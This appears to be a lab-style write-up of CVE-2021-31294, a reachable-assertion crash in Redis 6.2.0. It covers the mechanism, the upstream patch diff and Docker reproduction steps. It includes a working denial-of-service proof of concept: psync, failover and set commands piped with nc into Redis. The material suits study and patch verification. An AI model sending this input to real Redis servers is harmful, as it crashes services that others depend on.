



# CVE-2021-31294 CWE-617 Redis asserts failure

## Vulnerability Background
- **Redis**: A key-value storage system that is a cross-platform non-relational database. An open-source in-memory database that provides a high-performance key-value storage system, commonly used in caching, message queues, session storage, and other application scenarios. Clients communicate with Redis servers via sockets, sending commands, and the server changes its state (i.e., its memory structure) to respond to such commands.

- **psync:** A command in Redis used for master-slave synchronization (Replication), usually used by replicas to request data synchronization from the master server.

- **failover:** An operation in Redis Sentinel or master-slave replication used for failover. When the master server is unavailable, Sentinel or the replica triggers an `failover` operation, prompting a replica to become the new master server.

- ```txt
  CWE-617: Reachable Assertion
  The product contains an assert() or similar statement that can be triggered by an attacker, which leads to an application exit or other behavior that is more severe than necessary.
## Vulnerability Mechanism
In Redis, replicas usually copy commands from the master server and execute them, rather than actively executing any commands that might affect the keyspace (such as `SET`, `DEL`, etc.). However, in Redis, replicas may sometimes bypass client-side write pause checks and execute write commands (such as `SET` commands), causing Redis to fail assertions during the failover process.

## Vulnerability Location
Analyzing the Redis-6.2.0 source code:

In the src/server.c file, line 3895 of the processCommand function, if the judgment of the replica's execution of commands is not strict enough (for example, issues with flags like `is_may_replicate_command` or `is_write_command`), the replica may mistakenly execute write operations or commands that should not be executed, triggering assertions.

## Remediation
In `processCommand` functions, the type of command is checked. If the client is a copy (`CLIENT_SLAVE` flag) and the command is a command written (such as `SET`), or a command that may interact with the key space, Redis will reject those commands.

```c
diff --git a/src/server.c b/src/server.c
index 993260619c4..1fe150b3b82 100644
--- a/src/server.c
+++ b/src/server.c
@@ -3985,6 +3985,8 @@ int processCommand(client *c) {
         return C_OK;
     }
 
+    int is_read_command = (c->cmd->flags & CMD_READONLY) ||
+                           (c->cmd->proc == execCommand && (c->mstate.cmd_flags & CMD_READONLY));
     int is_write_command = (c->cmd->flags & CMD_WRITE) ||
                            (c->cmd->proc == execCommand && (c->mstate.cmd_flags & CMD_WRITE));
     int is_denyoom_command = (c->cmd->flags & CMD_DENYOOM) ||
@@ -4194,7 +4196,7 @@ int processCommand(client *c) {
           c->cmd->proc != discardCommand &&
           c->cmd->proc != watchCommand &&
           c->cmd->proc != unwatchCommand &&
-	  c->cmd->proc != resetCommand &&
+          c->cmd->proc != resetCommand &&
         !(c->cmd->proc == shutdownCommand &&
           c->argc == 2 &&
           tolower(((char*)c->argv[1]->ptr)[0]) == 'n') &&
@@ -4206,6 +4208,14 @@ int processCommand(client *c) {
         return C_OK;
     }
 
+    /* Prevent a replica from sending commands that access the keyspace.
+     * The main objective here is to prevent abuse of client pause check
+     * from which replicas are exempt. */
+    if ((c->flags & CLIENT_SLAVE) && (is_may_replicate_command || is_write_command || is_read_command)) {
+        rejectCommandFormat(c, "Replica can't interract with the keyspace");
+        return C_OK;
+    }
+
     /* If the server is paused, block the client until
      * the pause has ended. Replicas are never paused. */
     if (!(c->flags & CLIENT_SLAVE) && 
```

## Affected Versions
Reids：

-  x to 6.2.20

## Environment Setup
Start the Docker environment, Redis version 6.2.0

```txt
NIST:NVD   Base Score:5.9 MEDIUM   Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:redis:redis:6.2.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

   ```bash
   docker exec -it redis-6.2.0 sh
   ```

2. Construct PoC files

   ```bash
   echo -e "psync ldecl1 k\nfailover\nset key value" > CVE-2021-31294-PoC
   ```

3. Use `nc` to send data, and you will see the container exit

   ```bash
   nc 127.0.0.1 6379 < CVE-2021-31294-PoC
   ```

   

4. Checking the container logs, you can see that PoC-induced assertion failures caused Redis to crash

   ```bash
   docker logs redis-6.2.0
   ```

   

## PoC Analysis

```bash
psync ldecl1 k
failover
set key value
```

Under normal circumstances, replicas should only receive and execute commands synchronized from the master server, and should not proactively initiate command writing or failover operations. During the execution of these commands, copies may bypass checks in the `processCommand`, causing them to execute write commands or other illegal commands during failover (`failover`), triggering Redis assertion failures or other errors.

## References
[NVD - CVE-2021-31294](https://nvd.nist.gov/vuln/detail/CVE-2021-31294#range-15353802)

[[CRASH\]The psync command will crash redis · Issue #8712 · redis/redis](https://github.com/redis/redis/issues/8712)

[Prevent replicas from sending commands that interact with keyspace (#… · redis/redis@6cbea7d](https://github.com/redis/redis/commit/6cbea7d29b5285692843bc1c351abba1a7ef326f)
